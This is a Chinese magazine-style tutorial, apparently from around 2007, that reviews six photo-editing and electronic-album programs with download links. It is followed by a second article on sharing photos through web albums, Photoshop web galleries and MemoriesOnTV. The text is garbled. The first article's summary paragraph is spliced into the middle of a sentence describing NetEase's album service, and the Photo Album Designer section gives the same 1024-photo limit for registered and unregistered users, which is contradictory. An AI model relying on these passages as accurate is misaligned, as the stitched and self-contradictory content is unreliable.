“光影魔术手nEO iMAGING 0.24 简体中文版”可谓是“PS弱势群体的福音”。这款软件提供丰富的图片处理功能，绝不亚于任何一款专业的图像处理软件。同时独具傻瓜式一键操作，更可以使用户朋友轻轻松松处理图片。这当然是由于“光影魔术手”这款软件将大量复杂的手动设置调配功能简化为自动处理功能。可能会有朋友觉得这样减少了许多手动处理图片的乐趣，不过减少乐趣的同时也带来了许多方便：这样自动处理图片的效果，节省了用户许多的时间，减少了麻烦。并不是每个人都需要时常处理图片，也不是每个人都要专业地“琢磨”处理图片。对于这部分用户而言，图片的自动处理功能反而更合适。同时，这款软件的自动处理与计算功能，谁说会比专业的高手水准差呢？

##### 1. 软件界面

“光影魔术手nEO iMAGING 0.24 简体中文版”软件大小仅为4948 KB，各位用户朋友可以参照笔者在上文中提供的下载地址，下载后解压安装即可使用。其解压与安装过程十分简单，在此不做赘述。下面简单来介绍一下本款软件的界面。

本款软件的整体风格是“简洁与实用”，其界面设计也沿袭了这一风格。安装后双击软件图标即可出现该软件主界面，如图1所示。在该界面中，包括菜单栏，本款软件所提供的所有功能都需通过此处菜单中的菜单项完成。在菜单栏下方则是工具栏，此处提供一些基本操作选项如“打开”、“保存”、“另存”，图片显示模式选择如“对比”，以及对图像进行一些常用处理操作如“裁剪”、“补光”、“边框”等。在工具栏下方则是图片显示区域，在此处可显示调整图片时的直方图及照片信息摘要。

##### 2. “正片效果”功能——轻松还原精美照片

由于拍摄条件的限制，很多朋友拍摄的照片反差不够鲜明，色彩不够亮丽。处理这样的照片则可使用“光影魔术手”提供的“正片效果”功能。“正片效果”功能又称“模拟反转片”功能，是本款软件最重要的功能之一。运用该功能可使照片暗部细节得到最大程度的保留，高光部分无溢出，红色还原十分准确，色彩过渡自然艳丽，绝无色斑。此功能提供多种模式可供选择，如人像模式对亚洲人的肤色进行了优化，可改善肤色偏黄的人像效果。

“光影魔术手”的“正片效果”（反转片效果）功能可通过两种方式实现。一则通过单击菜单栏“效果”菜单，选择“反转片效果”菜单项。二则单击工具栏上“反转片”选项即可。下面介绍运用方法二实现该功能的方法。

打开一幅照片，则在图片显示区域显示出该照片及有关信息。单击工具栏“对比”选项，使照片呈修改前后对比模式显示。此时再单击工具栏“反转片”选项，在提供的模式菜单中选择“真实色彩”选项，该软件自动处理照片，几秒后即可呈现修改后效果，右侧即为修改后效果。对比修改前效果可发现其明暗对比更强烈，色彩更真实亮丽。用户朋友在处理照片时可根据需要选择适合的模式，尽情享受本款软件强大的图片自动处理功能。“轻松方便，一键搞定。”

##### 3. “边框”功能——怎么美来怎么秀

如果想给照片作品增色，复杂花哨的边框自然是必不可少的一项。“光影魔术手”的一大优点就是提供并兼容多种边框，包括花样边框、多图边框、撕边效果、轻松边框等。用户只需轻轻一击，即可为单调的照片作品添加艺术效果。如果用户朋友们“不小心”爱上了本款软件的这一功能，嫌既定的素材太少的话，还可以到本软件的网络主页下载边框素材包，随时丰富自己的照片！

如同“正片效果”功能一样，“光影魔术手”提供的“边框”功能也有两种方式可以实现。一则通过单击菜单栏“工具”选择不同的边框菜单项，二则单击工具栏中的“边框”选项即可实现。下面就方法二简介该功能的实现。

如图2所示，打开一幅图片后，单击工具栏中“边框”选项，在其下拉菜单中选择“花样边框”选项，则弹出窗口如图示，在此用户朋友可选择合适的边框，选中后单击“确定”即可。

选择了合适的“花样边框”后的照片效果，有趣且富艺术效果。经过边框效果处理的照片，秀起来更具美感。

当然本款软件提供的边框功能并不仅为笔者所展示的“花样边框”这一种，还包括如“轻松边框”、“多图边框”、“撕边效果”等多种边框效果，用户可自由选择。

#### 二、相册之王——电子相册王Photofamily 3.0 多国语言版

- 软件大小：27071 KB
- 软件性质：共享版
- 软件语言：简体中文
- 适用系统：Windows 9x/ME/NT/2000/XP
- 推荐指数：★★★★☆
- 推荐感言：轻松制作电子相册，照片一样“有声有色”。
- 下载链接：http://redirect.mydown.com/mydown/predown.jsp?id=112405&p=0&j=1&m=1&url=http://md11.mydown.com/soft/200703/photofamily_10885.zip

运用图片处理软件，可以使单张照片变得更完美。但诚如笔者在引言中所言，秀给老友们或家人们看的图片可不仅仅只是图片的问题，还包括如何“展示”这些图片。你是想用鼠标单击着照片一张一张地秀给别人看，还是做成精致的电子相册和大家一起分享呢？如果你毫不犹豫地选择了后者，那么就让我们一起来看看这款软件——“电子相册王”吧。

“电子相册王”并不仅仅是一款普通的图像处理软件。普通的图像处理软件提供的功能无外乎图片的修复与效果处理等。而Photofamily在提供这类常规图像处理、管理功能以满足用户收藏、润色照片的基础上，别出心裁地开发设计了有声电子相册功能，使欣赏照片不再是个单调的过程，变得“有声有色”，带来无限情趣。用户可将照片制作成相册后，为其添加文字说明，其亦支持背景音乐添加功能。用户也可以将电子相册作为独立运行程序打包，将其刻录成SVCD以便珍藏。由此而言，Photofamily更接近于一款家庭娱乐性质的软件。

下面，就让笔者和各位用户朋友一起看看如何操作这款让照片变得“有声有色”的软件。

##### 1. 软件界面

在使用本款软件前需下载安装。“电子相册王”压缩后大小约为27 MB，用户可在相关网站下载，或者参照笔者提供的下载地址进行下载。笔者提供的下载版本为该软件的3.0多国语言版。用户在安装时，选择合适的安装语言(中文简体、中文繁体、英文等)即可。注意，在安装时用户可以根据需要选择普通安装、精简安装、自定义高级安装等不同安装形式。

安装成功后，双击本软件图标即可进入到主界面，如图3所示。在该界面，用户可见到菜单栏，在此可通过对菜单项的选择完成对图片的基本处理及电子相册制作。菜单栏下方的工具栏则提供了一些使用本软件时的常用工具，如建立“新相册”、“获取”、“扫描”、“保存”、“打印”、“编辑”、“浏览”、“属性”、“查找”和“缩图”等工具选项。工具栏下方则为电子相册的主显示区域。在此用户可以看到图片或相册的缩略图。主显示区域左侧则分为上下两部分，皆用来打开图片或相册。

##### 2. 制作电子相册

运用Photofamily制作电子相册，首先要单击工具栏“新相册”图标新建相册，“相册2”即为新建的相册。在下面对照片的处理即相册的设置，都将从建立新相册开始。

建立新相册后，可单击工具栏处“获取”图标，为刚刚新建的相册添加照片。此处添加的照片将构成之后在该相册中显示的主要内容。

建立新的相册并为其添加照片后，用户可以对添加的这些照片进行编辑处理。在此简单提一下本款软件关于照片的一些处理快捷键，双击主显示区域的图片即可全屏幕浏览该图片，而对图片的一些基本处理如编辑、剪切、设置壁纸等均可通过在该图片上单击右键实现。

#### 三、绝对实用——易事通标准证件照片处理工具 2.0

- 软件大小：7503 KB
- 软件性质：免费版
- 软件语言：简体中文
- 适用系统：Windows 9x/ME/NT/2000/XP
- 推荐指数：★★★
- 推荐感言：轻松搞定证件照，一键DIY不求人。
- 下载链接：http://soft.2118.com.cn:82/down/eastomphoto.exe

在前文中，笔者已经介绍了许多实用又好玩的处理图片的软件，在此再为大家推荐一款完全以实用为主的软件——“易事通标准证件照片处理工具”。

学生证、报名表、驾驶证……甭管你是什么身份什么职业，在这个社会里总有用得到证件照的地方。“用一回照一回”——快把这老土的想法和行为扔到爪哇国去吧。在照相设备和处理图片软件满天飞的现在，小小证件照，还需劳他人大驾吗？当然是“自己动手，丰衣足食”。“易事通标准证件照片处理工具”就是这样一款提供给用户朋友们DIY的工具软件。运用本款软件可将使用数码相机或手机拍摄的照片传至电脑中，对其进行尺寸调整和截图处理，从内容到格式，一路DIY到底。真正简单方便打造符合要求的各种证件照。

##### 1. 软件界面

“易事通标准证件照片处理工具”是一款实用的小软件，其大小仅为7 MB。下载后安装即可使用。在上文中笔者提供了其2.0版本的下载地址，各位用户朋友可参考下载。



安装后双击该软件图标即可进入其主界面，风格非常简洁明了。如图5所示，其界面仅分为菜单栏、工具栏及图片处理区域。对于原始照片的获取和处理均可在菜单栏菜单项及工具栏中完成。其图片处理区域则分为大图处理区域和小图实际效果显示区域。大图处理区域展现原始图片及调整处理过程。小图区域则直接展现处理后符合格式的标准证件照效果图。通过对大小图的对比调整，用户即可完成对证件照的处理工作。

##### 2. 截取已有照片制作证件照

使用本款软件制作证件照，用户朋友既可以对已有的照片进行截取，也可通过外部设备（如摄像头、数码相机等）重新获取照片。下面介绍对已有照片进行截取以制作证件照的方法。

打开“易事通”后，单击菜单栏“文件”菜单，选择“打开”菜单项，打开一幅需要进行处理的照片。

对于证件照尺寸的选择，用户朋友可通过单击菜单栏中的“取图”菜单，选择合适的菜单项来完成。如图6所示，则为选择标准一寸照片进行截取制作。用户朋友当然可以选择其它合适的尺寸，如“标准二寸照片”，或者通过“用户自定义尺寸”进行自行选择。选择后，在图片处理区域中的黑色可移动显示框则为该尺寸大小。

在上图中，打开的原始照片很大，并不能满足我们对其操作的需要，因而要对原始图片进行缩放处理。实现方法可单击菜单栏“视图”菜单，选择“缩放”菜单项或者单击工具栏缩放图标，



用户在制作完需要的证件照片并保存后，还可对该照片进行一些小小的处理。由于“易事通标准证件照片处理工具”只是一款比较好用的图片截取工具，其在照片修复和处理的功能上并不丰富。不过用户还可就其提供的一些简单功能，如调明、调暗光线或将彩色照转变为黑白照等，对图片进行处理。例如单击菜单栏“视图”→“图片转为灰色”菜单项，以实现将彩色照片转化为黑白照的处理。

#### 四、时间的烙印——数码照片伴侣1.01

- 软件大小：2289 KB
- 软件性质：试用版
- 软件语言：简体中文
- 适用系统：Windows 9x/ME/NT/2000/XP/2003
- 推荐感言：为照片烫上时间的烙印。
- 下载链接：http://zbdx4.skycn.com:82/down/ExifBlue.zip

旅游完毕出行归来总会带回大量的照片，或者放在电脑中展示给老友们看，或者洗印出来留作纪念。不过在很久以后，会不会连自己都想不起来这些存在美好记忆的照片是来自什么时间？并不是每款数码相机都具有自动为数码照片添加日期的功能，这也常常使得连摄影者都搞不清楚具体的摄影日期。还在老土上拼命回忆拍摄的日期，再用Photoshop一张一张地添加吗？现在推荐给各位用户朋友的“数码照片伴侣”正是帮你解决“为照片烫上时间烙印”这个问题的好帮手。

事实上数码相机在拍照时可以自动将成像时间记录到所生成的文件中去的（还包括快门速度、光圈大小等等，这些记录称为Exif信息，我们常用的ACDSee能查到这些信息）利用这些记录，“数码照片伴侣”会自动将拍照时间添加到照片图像上，同时我们还可以选择所添加的字体、颜色、尺寸的比例、间距的比例、注释等等，一键操作，轻松搞定。

##### 1. 软件界面

“数码照片伴侣”的主要功能即为照片添加拍摄时间，其功能比较单一，其软件也比较小，压缩包仅为2MB。下载后解压安装即可使用。用户朋友可参照笔者提供的1.01版本进行下载。

1.01版本的“数码照片伴侣”的界面非常简单(如图7)，菜单栏仅有“文件”、“设置”、“帮助”这三个菜单，在菜单栏下方的工具栏则提供一些常用功能图标，包括生成文件及选项设置等。


##### 2. 为照片烫上时间的烙印

通过在工具栏下方的照片路径选择打开需要处理的照片，该部分照片会在右侧图片显示区域中显示出来。每幅图片前均有复选框，用户可根据需要对不同的照片进行处理。选择后，可通过菜单栏“文件”菜单“目标生成”菜单项生成新的照片文件。此功能也可通过单击工具栏“目标生成”图标实现。

#### 五、打造古典相册——电子相册制作Photo Album Designer 1.31 Final 简体中文汉化版

- 软件大小：3.5 MB
- 软件性质：共享版
- 软件语言：简体中文
- 适用系统：Windows 9x/ME/NT/2000/XP
- 推荐指数：★★
- 推荐感言：提供精致古典相框，更添相册美感。
- 下载链接：http://mdll.mydown.com/soft/200704/Photo Album Designer_mydown0404.rar

越来越多的相册软件提供丰富且具有现代感的特效处理，这倒是让很多用户朋友怀念起最古老简单的相框来。“电子相册制作Photo Album Designer”在提供制作幻灯片式相册功能的基础上，亦提供了多种具有古典风格的相框，可以充分满足用户朋友对于古典相框的追忆。同时提供几十种相片切换效果，且可以为照片添加文本，展示照片的功能更为丰富。

除了为照片添加古典风格相框以及制作简单幻灯片式相册外，本款软件同时可以将处理过的照片直接输出为壁纸及生成屏幕保护程序，使用起来非常方便。

下面，笔者就为其基本使用及添加古典相框和生成幻灯片式相册功能做些简单介绍。

##### 1. 软件界面

“电子相册制作”的安装压缩包约为3.5MB，下载解压安装后即可试用。其要求注册，未注册用户仅可在相册中添加1024张照片，注册用户则可在相册中添加1024张照片。用户朋友可参照笔者提供的地址进行下载。下面笔者就1.31试用版本的主界面进行简单介绍。



一般在打开本软件的同时，该软件会自动提示是否打开或新建相册工程。此时按需要选择即可。在工具栏下方则为照片处理区域，包括对照片的添加、删除、图层合并等处理均在此处完成。工具栏提供了诸如新建相册、打开相册、保存相册等项目和播放幻灯片等常用选项。



##### 2. 添加古典边框，制作电子相册

运用本款软件制作电子相册，则首先需新建相册。单击工具栏“新建相册工程”图标即可出现“相册工程向导”，在此通过对“相册”、“照片”、“页面”、“效果”的设置实现对电子相册的基本制作。

在向导窗口中包含了对“相册”的基本功能设置，包括相册工程名称、标题、保存地址、背景音乐文件及幻灯片页面延迟时间的设置。在此处设置完毕后，可转至对“照片”的设置。

单击“照片”按钮，则在此处可进行对相册照片的基本设置。该软件要求对于每个新的相册功能至少载入两张照片。选中“显示预览”标签前的复选框，则可在图片框中预览载入的照片。载入完毕后单击“确定”即可。

照片载入后，可对将要进行照片处理的页面，即相册显示的背景页面进行设置，单击相册工程向导的“页面”按钮即可。在此处可以选择不同的图案作为背景。注意，只有在“平铺”或“拉伸”的情况下才可设置背景，而在“单色”的情况下则不可，此时只能选择背景颜色。此处亦可调整比例。设置完毕后单击“确定”即可。

在相册工程向导的前三步设置完成之后，用户可以对即将在相册中显示的照片切换效果进行设置。本款软件提供了几十种相片切换方式，用户可根据喜好进行选择，并可在此处设置是随机过渡或者重复过渡。设置完毕后单击“确定”即可。至此，对于相册的基本操作设置都已完毕，接下来只需要对载入的照片进行处理，进行幻灯片演示，然后保存程序即可。

在对相册进行基本设置后，接下来即可进行对照片的设置。对照片的处理功能包括修复、特效等，笔者在前文中已叙述许多，在此只介绍本款软件最为特殊的地方——为照片添加古典效果的边框。

选中一幅之前已载入本相册的照片，单击菜单栏“视图”菜单，选择“边框”菜单项，即可为本幅照片添加相框。本软件除了提供古典型边框外，亦提供了一些现代型边框，用户朋友可根据需要选择。需要注意的是，其添加的边框大小范围可调，用户朋友只要根据照片的大小运用鼠标调整边框大小使其合适匹配即可。调整后，按一下回车键，即可实现对边框图层及原始图层的合并，从而完成对照片的添加边框处理。

在完成对相册中的照片的设置后，只要单击工具栏中“输出为可执行文件”的图标即可完成电子相册的制作。如需观赏，只需在其输出地址执行该程序，即可按用户在之前对相册的设置展现精美的电子相册。

## 六、相册玩转，“玩之大者” —— 友锋电子相册制作2.5

- 软件大小：4868 KB
- 软件性质：共享版
- 软件语言：简体中文
- 适用系统：Windows 9x/ME/NT/2000/XP/2003
- 推荐指数：★★★★
- 推荐感言： 照片也有心声，读给你听。
- 下载链接： http://js.newhua.com/down/yfalbumnh.zip

在上文中，笔者曾介绍了几款既可以修复图片，又可以将图片制作成电子相册的软件。下面介绍的这款“友锋电子相册制作”，虽然不具备丰富的修复图片或为图片加特效的功能，却是打造精美“晒片过程”的个中翘楚。其不仅提供将照片制作成电子相册的功能，还提供将照片图集生成幻灯片、屏幕保护程序、制作成VCD或DVD、Flash影片、生成网页相册，甚至是利用照片制作一些小游戏的功能。

运用本款软件可以轻松制作电子相册，为照片添加注释、音乐、补充信息，甚至可以录旁白，为你的照片增加“心声”。注重隐私保护的用户朋友同时可以为电子相册设置密码。

“友锋电子相册”亦可将照片集生成独立运行的屏幕保护程序、AVI格式视频文件。其中可添加多种背景音乐（AVI视频支持WAV及MP3格式音乐），本软件支持同步显示背景音乐的歌词，并提供丰富的（约有200多种）相片切换效果，可使显示照片的过程更加丰富多彩。

或许在修复并添加特效的功能上，“友锋电子相册”不能够和其它同类软件抗衡，不过从其提供的“玩转”相册及其它图片展示模式的功能上看，本软件绝对可以称为“玩之大者”。

“友锋电子相册”提供的功能十分丰富，下面笔者仅就其中一部分功能为各位用户朋友做些简单介绍。

##### 1. 软件界面

“友锋电子相册”安装压缩包约为4MB，因其为共享版，用户下载解压安装后可试用。用户朋友们可以在软件站自行搜索其下载，也可参考笔者提供的下载地址，笔者提供2.5版本的下载方式。

安装后双击软件图标即可进入该软件主界面（图9）。“友锋电子相册2.5标准版”的主界面十分简单。菜单栏提供了基本的操作选项，菜单栏下方的工具栏上则放置了所有常用功能图标。包括“生成exe”程序、“生成屏保”、“生成影片”、“生成Flash”、“生成网页”、“生成游戏”等，一般而言用户的常用操作均可在此完成。在工具栏下方的空白区域则是相册生成区（如图9所示），在此处可为相册添加照片，并对其进行设置。相册生成区的左方为相片信息显示区。用户选定某幅照片后可在此对其信息进行设置。


##### 2. 制作电子相册，为照片添加“心声”

运用“友锋”软件制作相册，首先需要在主界面工具栏中单击“新建相册”图标，然后单击该栏中“添加相片”图标，从电脑中将照片载入，添加相片到相册中。此时添加的照片都会在工具栏下方的相册生成区中显示。

将照片添加到相册中后，用户可以开始对照片进行设置。选中需要设置的照片，相册生成区左方的“选定相片信息”处修改照片信息。包括对照片名称、拍摄者、拍摄时间的设置，以及可以为该照片添加声音描述和文字描述。对照片的声音描述既可以应用音乐，也可以由用户运用录音工具录制一段旁白，作为照片的“心声”。在此录制的旁白或音乐将会在相册展示到该幅照片时自动播放。

在为照片修改信息时，同时也可以对照片进行一些简单的处理。只要双击欲处理的照片即可。不过本款软件提供的照片修复功能并不十分丰富，只有一些基本的如去红眼等功能。

在对添加到相册中的照片依次设置完后，即可以运用本款软件的相册功能，将其生成为电子相册保存。具体实现方式则为单击工具栏中的“保存相册”图标，在弹出来的下拉菜单中，选择“生成EXE格式相册”，其提供幻灯片格式、EXE程序及书本式EXE程序，在此我们选择“书本式EXE”。

选中此项，将自动弹出提示让用户对相册进行设置。第一步将进行“全局设置”，此处均按提示操作即可。在此可完成对相册背景图片、显示信息即播放声音与否的设置。

第二步则是对相册进行“封面设置”，在此可对相册封面背景及标题作者等进行设置。

在第三步的“内容页设置”，可完成对相册内容页的背景颜色及背景图片的设置。

第四步的设置则为对相册“背景音乐的设置”。在此处用户可根据喜好添加或移除音乐，此处提供试听功能。

第五步则为相册设置的最后一步，即“输出设置”。用户可以选择将相册的书本式EXE程序保存到指定的位置。完成了这一步后，一个集音乐、旁白与文字于一身的自动显示的精美相册就大功告成了。“友锋”提供的这一性能操作简单，效果丰富，十分好用。

##### 3. 生成屏幕保护程序

“友锋电子相册”不仅可以生成普通相册，同时可以生成屏幕保护程序。其操作与生成相册大致无异，仅在对屏幕保护程序的设置上有所不同。

在进行完对照片的处理后，单击工具栏“生成屏保”图标即可开始对生成屏保程序的设置。

第一步仍然是对全局的设置。不过此处设置内容与生成相册时设置内容有所不同，除了对屏幕背景色、相片名称及描述、相片和背景音乐的设置外，还包括对相片显示效果的设置，由于“友锋”提供了丰富的相片切换效果，用户可在此设置是否需要使用同一效果显示照片。

生成屏保设置的第二步则是进行“效果设置”，在此用户可以从丰富的相片切换效果中选择合适的种类。

同生成相册一样，“友锋”在生成屏保的同时也可以为其添加背景音乐。同时用户可在此处设置是否要设置同步歌词。

在进行完以上三步的设置后，即进入生成屏保的最后一步，即“输出设置”，此处也与生成相册时的输出设置略有不同。完成本步操作后，屏保程序即操作完毕，用户可设置使用。

### 好PP要让大家看：数码照片分享技巧



◆文/龚师傅

浪漫婚礼、外出旅游、成长记录、毕业留念……生活中有多少美好的时光值得纪念和回味，随着数码相机日益普及，数码影像的获取变得非常容易了，朋友们手上都有不少自己的得意之作，但保存在电脑中的数码照片寻找和欣赏都不太方便，那么数码照片都有哪些分享的方法和技巧呢？下面让我逐一到来。

#### 一、与所有人分享：把相册放到网上去

要通过网络展示自己的摄影作品，除了用自己的WEB空间上传、通过论坛进行贴图等方式外，建立网络相册是最方便的手段。

### 1.常见网络相册简介

目前国内提供免费网络相册服务的网站很多，尽管在功能上大同小异，但提供的空间大小和速度快慢差异较大。大家可以经过实际测试后进行选择。下面给大家简单介绍几个国内常见的网络相册。

网易个人相册：这是目前国内人气最旺的网络相册，最大特点是拥有无限的相册空间，也就是说无论你有多少图片，都可以上传到网易相册空间，尽管。

综述：在上文中，笔者分别介绍了“光影魔术手”、“电子相册王”、“易事通证件照片处理工具”、“数码照片伴侣”、“电子相册制作”、“友锋电子相册”这六款图片处理、相册制作工具。其功能各有千秋，有的专业于图像修复，有的专业于特效处理，有的专业于古典风格，有的专业于娱乐功能，即使是两款单一的小软件如“易事通证件照片处理工具”和“数码照片伴侣”，其功能也十分专业实用。整体而言，这六款软件都界面友好，操作便捷，使用方便。相信通过本文的介绍，用户朋友们都可以轻松使用这些软件。如果已经了解并掌握了这些软件的使用，各位朋友还等什么呢？快快轻松简单地为自己的照片做个整理，不再让出行旅游带回的照片再杂乱地陈列在硬盘的某个角落吧。在这个秋末冬初的季节，晒晒美美的照片，顺便分享那些藏在照片中的美好回忆吧！■

用户众多，但上传和浏览速度很快；此外互动功能也很强，可以参加在线摄影比赛；在论坛与大家交流；还有相册及照片评分功能。但网易相册中的照片不能在其它网站直接引用，而只能在网易社区、论坛及其他网易产品和频道中使用。

- 天极网络相册：天极网作为知名的IT门户网站，推出的免费网络相册也是相当精彩的，界面友好漂亮，支持图片大小在线调整，可防止某些上传图片因不适合窗口大小而导致变形扭曲的情况。
- TOM网络相册：TOM相册有较大的知名度，但提供的空间比较小，只有15MB。其特色在于支持多相册设置，可以对每个相册设定不同的访问级别。而且可以自定义相册的配色方案和系统默认的相册显示方式，还能将用户上传至相册的图片下载到彩信手机。
- Yahoo网络相册：雅虎是国内比较早提供网络相册功能的门户网站，向用户们提供了功能丰富、容量较大的网络相册空间。如果你已经是雅虎邮箱的用户，可以直接使用邮箱的ID和密码登录Yahoo相册。Yahoo相册的最大弱点在于速度较慢。
- QQ相册：是QQ用户的个人相片展示、存放平台，如果你的相册是设为公开属性，其他用户可以通过QQ客户端进行相册查看。所有QQ用户免费享用16兆相册空间，QQ会员、QQ交友高级用户可免费享用100兆超大空间。另外相册都拥有http://QQ号码.photo.qq.com的独立域名。
- Picasa网络相册：是Google图片处理软件Picasa的重要补充，它免去了通常在互联网上张贴照片的烦琐，让你在线组织和管理照片变得随心所欲。Picasa网络相册为用户提供了250MB的免费空间，而且用Picasa软件作为客户端是一种很好的尝试，在对个人计算机中的图片进行了很好的分类和管理的基础上，和网络相册结合起来，大大方便了图片的共享，无需登陆网站，很简单的几个操作就能让好友看到自己的图片。
- DuDu网络相册：一个比较专业的网络相册网站，提供20MB空间，具有在线编辑功能，并且能将图片直接制作成贺卡发送。或将图片发送到手机。

其他还有富图网网络相册、Fotocn中国相册等，就不一一介绍了。另外还有专门为可照相手机提供的相册，例如手机门户邦邦网、个人WAP门户等。

##### 2. 网络相册的使用步骤

网络相册使用非常简单，只要有基本的上网基础，就能够轻松掌握，下面以人气最旺的网易相册为例，让我们来具体看看如何申请并制作自己的网络相册，其他网络相册的使用方法也是大同小异的。

**申请开通：** 如果你已经有了网易通行证，直接登录网易相册就可以了。用户名与密码和网易通行证是一致的。如果还没有网易通行证，需要先注册一个，然后用通行证来登录网易相册即可开通。在开通后，你还拥有了一个用户名.photo.163.com的域名（比如我的网络相册域名为：gsyfdc.photo.163.com），可以通过这个域名来访问你的相册，相当方便。

**创建目录：** 在我们开通网易相册后，首先需要创建新目录，用户建立的每个目录，都可以选择设置权限，每个目录有三种权限设置：分别为“完全公开”、“完全私有”和“密码验证”，其含义是很容易理解的，大家可根据自己的需要进行设定。建议不要设置为“完全私有”，这样只有你本人才能看到这个目录下的图片，那把图片放上网有什么意义呢？

同时网易相册还提供了多种界面风格供用户选择。登录“我的相册”后，在页面的右上位置，有一个“选择风格”下拉框，通过它，可以选择自己喜欢的风格。

**上传照片：** 创建完目录后就可以上传图片了，在网易相册上传照片有多种方法：一是使用网易相册上传控件上传，支持批量上传，上传单张照片最大为2MB；一次上传照片最多为12张，可以多次上传。二是上传单张照片，进入某个目录后，选择页面左上方的“上传照片”，然后选择你需要上传的图片即可，上传单张相片最大可为5MB，可以为上传的图片添加注解。三是上传打包的ZIP或RAR压缩格式文件，要注意上传的压缩文件最大为10MB，压缩包里的单个照片尺寸不能超过5MB，只可包含.gif或.jpg格式的图片，文件名不要使用“\ ‘ < > ”等非法字符。另外要注意网易相册每个目录最多只能容纳一千张图片。

##### 3. 使用软件管理网络相册

网易相册的功能强大，且不限空间，当我们要上传很多图片时，每次都登录显然十分麻烦，我们可以用专门的软件来上传或下载图片。这就是“网易相册上传(下载)专家”，这款软件支持多任务多线程上传，速度快，支持单个文件、多个文件以及整个目录的上传，还支持远程新建文件夹、删除图片、删除相册目录等操作，十分方便。而且这还是一款免费的绿色软件，无需安装。可以说是网易相册用户的必备工具。

软件界面简洁明了，使用方法相当简单；运行后在软件右侧“登录信息”处填写你的网易相册用户名和密码，登录到相册后，就可以选取已经建立的相册进行相关操作了。比如“新建相册(目录)”，上传图片有两种方式，可以一次选择多张图片进行上传，或者一次上传一个文件夹内的所有图片。使用这款软件还可以方便地将相册中的图片下载到你的硬盘中。点击工具栏上的“下载相册”按钮，弹出下载窗口。点击“打开目录”，列出你的相册列表，然后点击相册名称，进入图片列表，点选要下载的图片，点击“下载”，选择放置目录，就可以了。对于其他网络相册，很多也有类似的软件可以用来方便地上传及管理图片。大家可根据需要选择使用。

如果你拥有多个网络相册，那么使用“相册传送带”就很方便了，这是一款整合类型的图片传递辅助工具，可以在多个网络相册之间传递相片，还可以对相册里的图片信息和内容进行修改。通过便捷的上传、下载功能，便能轻松管理远程服务器；帮助你充分调用个人网络资源。

##### 4. 利用自有空间制作网页相册

网络相册实际上就是一种模板化了的专用个人网站（只能存放图片），尽管使用简单方便，但在个性化上还是存在一些不足。而且现在很多网络相册都不允许在其他地方引用图片，对于论坛贴图等很不方便。如果你拥有自己的网站空间，则完全可以利用Photoshop等软件自行设计制作网页相册。下面介绍一个制作Web相册的方法，它以缩略图的形式来管理照片，查找方便、快捷，而且更绝的是制作这个Web相册不需要专门去学习网页工具，在Photoshop 6.0以上的版本中只需要简单的两三步就能实现。

先在电脑上新建一个文件夹，用于存放处理后的Web相册。启动Photoshop，点击“文件→自动”，弹出“Web照片画廊”设置窗口。在Web照片画廊控制面板的样式中选择一个你喜欢的样式，在右边的预览窗口中可以看到Web照片画廊最终的样式，这里我们就选择水平画框。在选项中设置显示缩略图的相关信息，比如日期、字体和字体大小等。

在下面的文件选项中有两项设置，其中“源”就是你在电脑上保存的照片路径，“目的”就是你将保存的Web照片的地方，就是我们开始新建的文件夹。设置好后点右边的“好”。现在你只需要等待，电脑自动将你选择的照片处理成Web相册。

如果大家有一些网页制作基础，可以将生成的页面用Dreamweaver再做一些后期的CSS以及布局方面的优化调整和美化处理。其实制作网页相册的方法很多，比如用Dreamweaver和Fireworks也可做图片批处理并生成相册，不过我个人认为Photoshop结合Dreamweaver的效果比较好。制作完成后你就可以使用FTP工具上传到自己的网页空间了。

#### 二、亲朋好友分享：制作视频电子相册

我们花一点工夫将数码照片制作成各种电子相册和朋友家人一起分享，是很快乐和有意义的事情。很多软件可以制作作用电脑观看的相册，比如用Flash的动态导入图片功能可以制作一个方便扩展的互动相册。而用Powerpoint、Authware等软件也可以轻松制作有声电子相册。

##### 1. 视频相册制作前期准备

首先我们要选择一个合适的视频相册制作工具软件。目前视频相册制作工具很多，比如Premiere，和其它视频制作工具相比，Premiere操作要复杂一些，不过它能做出更精彩的视频相册。会声会影、DVD拍拍烧除了可以轻松制作VCD或DVD电子相册，还可以帮助用户对数码相片进行简单的后期处理。新版的ACDsee PRO也可以制作多种形式的电子相册。而3D Album PicturePro甚至能制作带互动游戏的3D电子相册。

《巨星MTV2002》这款国产视频相册制作软件，利用最先进的3D技术，效果好速度快。而MemoriesonTV也是一款值得推荐的制作专业照片VCD的软件，它可以把你的数码图像和视频片段制成视频VCD或DVD。Memoriesontv不但小巧，而且非常专业，操作也简单，只要几步就能够把你的数码相片或是视频片段制作成具有专业水平的VCD相册。其次在制作前，我们要对数码照片进行一些美化和修改，还可以加入一些特技效果，让你的照片栩栩如生，Photoshop当然是很好的选择，但普通用户使用起来比较复杂，国产免费软件“光影魔术手”也是一款非常好的数码照片前期处理软件。而常用的ACD Systems中为我们提供了专业的照片美化工具“ACD Photo Editor”，可以方便地处理曝光不足与曝光过度等问题，以及去除红眼和噪点等。其“照片校正向导”更是能够帮你一步一步地将照片优化。处理完成后，我们还可以按一定的顺序大致构思一下视频相册的制作“脚本”，并准备好背景音乐等其他素材，然后就可以动手制作了。

##### 2. MemoriesonTV制作视频相册

目前可用于照片视频相册制作的软件很多，如会声会影、Premiere等。这些工具的缺点是体积庞大，操作麻烦，MemoriesOnTV体积小巧，使用简单，而且功能专一，制作出来的视频相册颇有专业水平。而且利用刻录机多轨道的原理，可分门别类地存储照片，制作出“选单式”DVD光盘相册，下面就让我们来看看它的具体用法。

创建多轨相册及导入照片：MemoriesOnTV支持刻录机多轨存储刻录，启动后窗口左上角的轨道区里已经自动建立了一个名为“相册1”的相册，右击上面的“视频光盘：1个相册”后选择“添加新相册”命令，就会在下面新建一个相册，按同样的方法可依次建立多个相册。相册建立完毕，用鼠标右键依次点击，选择“相册更名”将它们分别命名为你需要的名字。然后将窗口中间的工作状态选定在“导入”模式下，在窗口右下角的资源区选定存放素材的目录后，我们的照片就会在右下角的备选区显示出来。首先在轨道区选中一个相册，然后在备选区按住“Ctrl”键逐张点选照片，全部选择完成后，点击备选区上面的最后一个图标工具，就把选中的照片添加到这本相册里去了。

### 添加特效与转场效果

